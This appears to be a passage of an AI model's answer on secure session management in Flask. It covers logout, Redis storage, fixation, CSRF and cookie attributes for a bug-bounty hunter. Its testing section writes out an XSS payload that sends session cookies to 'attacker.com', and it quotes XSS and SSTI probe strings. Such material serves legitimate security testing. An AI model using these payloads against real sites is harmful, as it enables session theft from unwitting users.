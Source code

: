 5. **Handle Logout**:
   - Invalidate the session and clear the cookie.
   ```python
   @app.route('/logout')
   def logout():
       session_id = request.cookies.get('session_id')
       del session_db[session_id]  # Remove from storage
       response = app.make_response('Logged out')
       response.set_cookie('session_id', '', expires=0)  # Clear cookie
       return response
   ```

6. **Secure Session Storage**:
   - Use a secure database (e.g., Redis with encryption).
   - Example:
     ```python
     import redis
     session_db = redis.Redis(host='localhost', port=6379, decode_responses=True)
     ```

7. **Mitigate Common Attacks**:
   - **Session Fixation**: Regenerate session ID post-login:
     ```python
     def create_session(user_id):
         old_session_id = request.cookies.get('session_id')
         if old_session_id in session_db:
             del session_db[old_session_id]
         # Generate new session_id
     ```
   - **Session Hijacking**: Use `Secure`, `HttpOnly`, `SameSite` cookies.
   - **CSRF**: Enforce CSRF tokens.
   - **Expiration**: Enforce timeouts and refresh sessions securely.

**Security Best Practices**:
- Use cryptographically secure random generators (e.g., `secrets`).
- Store minimal data in cookies; keep sensitive data server-side.
- Rotate session keys periodically.
- Monitor for session anomalies (e.g., IP changes).

**Bug Bounty Testing**:
- Test session endpoints (e.g., `/login`, `/profile`) for fixation, hijacking, or CSRF.
- Check cookie attributes with Burp Suite.
- Example: Inject XSS (`<script>fetch('attacker.com?cookie='+document.cookie)</script>`) to steal session cookies.

---

### Connection to Your Context

- **XSS and HTML Injection**: Your prior XSS queries (e.g., `test",prompt%0A/*HelloWorld*/(document.domain)`) highlight session cookie theft risks. Non-`HttpOnly` cookies are vulnerable to XSS, enabling session hijacking.
- **SSTI and RCE**: SSTI vulnerabilities (e.g., `{{config}}`) could leak session keys or manipulate session data, bypassing authentication/authorization.
- **Clickjacking**: Clickjacking could trick users into performing actions within a session (e.g., posting comments), mitigated by `SameSite` cookies and CSRF tokens.
- **Silicon Labs Code**: If used in a web-connected IoT device, weak session management (e.g., predictable tokens) could allow unauthorized control. Test endpoints like `/api/device/control`.
- **Axel Springer Scope**: Test session management on `sportbild.bild.de` or `club.autobild.de` for misconfigurations (e.g., missing `Secure` attributes).

---